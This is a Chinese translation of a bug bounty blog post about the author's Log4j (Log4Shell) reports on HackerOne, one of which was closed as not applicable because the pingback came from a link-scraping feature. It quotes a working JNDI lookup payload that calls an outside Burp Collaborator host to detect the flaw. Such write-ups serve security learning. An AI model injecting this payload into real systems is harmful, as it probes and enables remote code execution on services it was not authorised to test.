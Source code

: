 # 为“虫子赏金猎人”澄清 Log4J 的事实

> 原文：<https://infosecwriteups.com/facts-to-clear-about-log4j-for-bug-bounty-hunters-f58e04eb025?source=collection_archive---------0----------------------->

## 大家好，

在我的第一个[博客](/my-first-valid-bugs-8fa698f6aebe)中，我提到我将会发布一个关于我的每一个发现的博客。我还收到了 DMs，询问我最近在 P1 发现的细节/方法。因为我现在是本科的最后一年，我正在做全职的 bug 赏金猎人，学习一些新概念，这就是为什么我没有及时发表博客文章。很抱歉:)

从明年 1 月起，将开始上传所有博客。但是这个博客对目前的情况很有意义。

![](img/a65197574611b3aea9bd1e939305ffb4.png)

# 让我们开始吧。

2 天前我分享了我的 Log4j Hackerone 报告的截图。之后我在 Instagram 上收到了很多 DM 请求一些帮助，关于 Log4j 的指导。

我想澄清一些关于这个 bug 的疑惑和误解。

提交了 3 份关于 Hackerone 计划的报告:

1.  第一次报告:不适用，但 ***悬赏帮助他们排除故障***
2.  第二次报告:有效并授予奖金(与第一次报告相同的程序)
3.  第三次报告:长篇大论(不同的方案)

在这篇博客中，我们将只讨论**“第一次报告”**

众所周知，log4j 是最新的漏洞，在网站上找到 Log4j 的资源非常少。您可以在名称字段、UA 字符串、支持表单中的任何地方找到 Log4j..实际上是网站上的任何输入字段。

让我澄清一件事:**如果你从该公司的 IP 地址(而不是从谷歌或 AWS)得到 pingback，然后报告它，你不需要执行完整的 RCE。** ***(根据我到目前为止在 HackerOne 上的经验)***

该网站有一个创建自己的频道的功能，你可以在那里添加成员，可以发布信息，问题等。所以我提交了 Log4j 有效负载，包括我的 burp collaborator 链接，作为我的频道中的一个问题。

有效负载:$ { JNDI:LDAP://p1ry 70 m3 axtxo 2 qlpl 4 l 6 smgdm 3 as . burpcollaborator . net/a }

然后嘣！！对我来说，不是对公司:)

从公司的 IP 上得到 HTTP pingback。

![](img/451e83d46d52ab331aecc32a14c66cb5.png)

HTTP Pingback 请求。

提交了报告。

然后公司找我要 UA string。

![](img/daa2ce7b2238df9b2c628f877c7c7b95.png)

然后我提交了 UA 字符串，

用户代理:`Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:95.0) Gecko/20100101 Firefox/95.0`

公司再次要求我提供概念验证视频。

![](img/91d1fabcd0a67d6bc5efe6f0365f5d69.png)

之后，该公司要求我重新测试并捕捉视频，因为他们实现了某种算法或功能来跟踪这种活动。

![](img/214c1becd8cf5d8c2e304979d97e1769.png)

我提交了视频 POC，经过一天的等待，他们得出结论，以 NA 的身份关闭此报告，并奖励我帮助他们排除故障。

![](img/f17c70406b8e49c69afa8f00e0e9f1a7.png)

读完这篇文章后，我心中有很多疑问，如果这不是 Log4j，那么这个有效载荷是如何触发的。我当时想:

![](img/4efaf2cdedddb27b953cb327fa7de8e4.png)

然后我问他们这个问题，过了一段时间，另一个开发商来了，他回答说:

![](img/8e4bb3797da3574aaca65327eafb01f9.png)

我真是个笨蛋:)

是因为链接抓取功能触发的。

然后我使用 Canary Log4shell 令牌再次测试，这次我得到了来自 AWS 主机的 pingback。

![](img/97fd6b02b31f7d93dae03ecc1b2428bc.png)

> 记住:只有当你从公司的 IP 地址得到回应时才报告。如果你从谷歌或 AWS 报告 pingback，他们会将其作为 NA 关闭，你的(AWS/谷歌 pingback)报告被接受为有效问题的可能性很小。

**那么这个来自谷歌/AWS 的 pingback 是怎么回事呢？别担心，我有这个。**

我在 LinkedIn 上的一个熟人 [Sanyam Kakkar](https://www.linkedin.com/in/sanyam-kakkar-82b6901a9/) 告诉了我这件事:

> *****您在报告中演示的有效负载确实是由 Log4Shell 触发的，但是它也包含一个字面上写的主机名。我们的系统经常扫描各种用户输入(例如聊天消息、电子邮件)中的主机名和 URL，通过 DNS 解析它们，并尝试获取 URL，例如，确定有效载荷是否是恶意的，或者消息本身是否应该被归类为垃圾邮件。我们认为这就是这里发生的事情。这是谷歌的行为，如果他们在产品的任何地方发现域名，就会对其进行 ping 操作。*****

**(黑客计划)公司的安全人员非常好。由于这是我的第一份 Log4j 报告，我从错误中学到了很多新东西，这对我很有帮助，并成功提交了 2 份有效的 Log4j 报告。**

> **本博客中的所有信息都是根据我的经验和错误。我对所有读者和 bug 猎人的谦卑请求，如果你有任何更正或其他信息，请随时评论或给我发短信，我会在博客中添加或修改。**

**随意连接:[**Linkedin**](https://www.linkedin.com/in/jaydev-ahire/)**[**Twitter**](https://twitter.com/cybor_j)****

*****(PS:请不要在 DM 里问赏金金额 n 这些东西)*****
